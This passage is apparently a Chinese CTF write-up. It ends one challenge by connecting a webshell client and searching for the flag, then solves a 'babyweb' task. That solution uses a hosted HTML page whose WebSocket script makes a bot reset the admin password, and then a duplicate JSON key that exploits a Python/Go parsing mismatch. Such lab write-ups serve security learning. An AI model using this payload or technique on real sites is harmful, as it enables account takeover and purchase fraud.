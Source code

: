 
最后的账号密码

```
MaoGePaMao
MaoGeYaoQiFeiLa
```

按照我刚才那种，连接蚁剑

但是找了半天，没找到flag（当然我直接蚁剑一个一个找，最后找到了`/usr/local/This_1s_secert`）

当然，我们利用find命令去找，拿到flag

```
find / -mtime -1
```

##  web--babyweb

###  考点：

1.利用CSRF和websocket让bot改密码

2.json的解析不一致问题

###  wp

这个题也比较巧妙，有点类似于`GKCTF`的那个bot题

随便的账号密码登录进去，但是有个`admin`的账号存在，需要密码登录

随便进去之后，是一个bot,看起来像是打XSS

且有个提交漏洞的页面命令，是可以访问外网的

所以利用点：利用bot来修改admin密码

```js
<meta charset="utf-8">
<script>
function ws_attack(){
    var ws = new WebSocket("ws://127.0.0.1:8888/bot");
    ws.onopen = function(evt) { 
        ws.send("changepw 123456");
    };
}
ws_attack();
</script>
```

存为exp.html放在服务器上，让bot访问exp.html，修改admin密码为123456

登录到admin，抓买东西的包

是一个`json`的[python和go的解析不一致](https://bishopfox.com/blog/json-interoperability-vulnerabilities)的问题

新增一个num键为负数，让flask解析第二个重复的键，jsonparser解析第一个键

![44a4f547-16bd-40d2-9aad-5ebd5b4894e3](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/44a4f547-16bd-40d2-9aad-5ebd5b4894e3.png)
